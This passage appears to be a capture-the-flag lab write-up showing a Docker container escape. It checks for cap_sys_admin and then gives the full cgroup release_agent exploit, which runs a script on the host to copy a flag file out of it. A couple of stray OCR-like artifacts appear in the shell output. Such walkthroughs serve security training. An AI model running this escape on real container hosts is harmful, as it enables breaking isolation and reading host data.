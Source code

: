 <h3>Loot</h3>
<br>

<h6 align="center" ><img width="800px" src="https://github.com/user-attachments/assets/772a7d07-f22f-4105-ab32-69284ec185b1"><br><em>Logging into the new Instance as "root" and executing the code snippet, resulting in container escape.</em></h6>

<br>

<h6 align="center" ><img width="800px" src="https://github.com/user-attachments/assets/71e8b3f2-8bfd-4439-865e-84c3265b63a2"><br><em>Showing that the command we executed (/exploit) has grabbed the file from the host operating system.</em></h6>

<br>
<p><em>Answer the question below</em></p>

<p>11.1. Contents of "flag.txt" from the host operating system<br>
<code>thm{**********************}</code></p>


```bash
:~# ssh root@xx.xxx.xx.xxx -p 2244
The authenticity of host '[xx.xx.xx.xxx]:2244 ([xx.xxx.xx.xxx]:2244)' can't be established.
ECDSA key fingerprint is SHA256:...
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[xx.xxx.xx.xxx]:2244' (ECDSA) to the list of known hosts.
root@xx.xxx.xx.xxx's password: 
root@8a9427527c82:~# 
```

```bash
root@8a9427527c82:~# capsh --print | grep sys_admin
Current: = cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read+eip
Bounding set =cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read
```


```bash
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/exploit" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /exploit
echo "cat /home/cmnatic/flag.txt > $host_path/flag.txt" >> /exploit
chmod a+x /exploit
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"1(rvm)
Guessed mode: UNCERTAIN (0)
```

```bash
root@8a9427527c82:/# cat flag.txt
thm{**********************}
```
